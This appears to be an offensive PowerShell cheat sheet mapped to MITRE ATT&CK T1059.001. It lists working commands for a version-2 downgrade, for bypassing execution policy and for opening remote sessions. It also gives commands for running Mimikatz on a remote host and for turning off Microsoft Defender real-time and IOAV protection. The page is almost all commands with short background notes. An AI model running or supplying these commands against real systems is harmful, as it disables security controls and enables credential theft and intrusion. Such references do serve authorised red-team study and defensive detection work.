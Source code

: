 ```yaml
---
description: MITRE ATT&CK, Execution, Technique T1059.001
---
```


# PowerShell

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session #
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```
